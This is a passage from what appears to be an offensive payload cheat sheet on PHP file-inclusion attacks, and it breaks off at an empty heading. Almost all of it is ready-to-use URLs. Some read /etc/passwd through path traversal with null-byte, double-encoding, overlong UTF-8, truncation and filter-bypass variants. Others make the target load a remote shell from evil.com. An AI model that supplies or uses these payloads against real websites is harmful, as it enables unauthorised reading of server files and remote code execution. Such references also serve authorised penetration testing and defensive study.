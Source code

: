 :warning: In versions of PHP below 5.3.4 we can terminate with null byte.

```powershell
http://example.com/index.php?page=../../../etc/passwd%00
```

### Double encoding

```powershell
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```

### UTF-8 encoding

```powershell
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd%00
```

### Path and dot truncation

On most PHP installations a filename longer than 4096 bytes will be cut off so any excess chars will be thrown away.

```powershell
http://example.com/index.php?page=../../../etc/passwd............[ADD MORE]
http://example.com/index.php?page=../../../etc/passwd\.\.\.\.\.\.[ADD MORE]
http://example.com/index.php?page=../../../etc/passwd/./././././.[ADD MORE] 
http://example.com/index.php?page=../../../[ADD MORE]../../../../etc/passwd
```

### Filter bypass tricks

```powershell
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
```

## Basic RFI

Most of the filter bypasses from LFI section can be reused for RFI.

```powershell
http://example.com/index.php?page=http://evil.com/shell.txt
```

### Null byte

```powershell
http://example.com/index.php?page=http://evil.com/shell.txt%00
```

### Double encoding
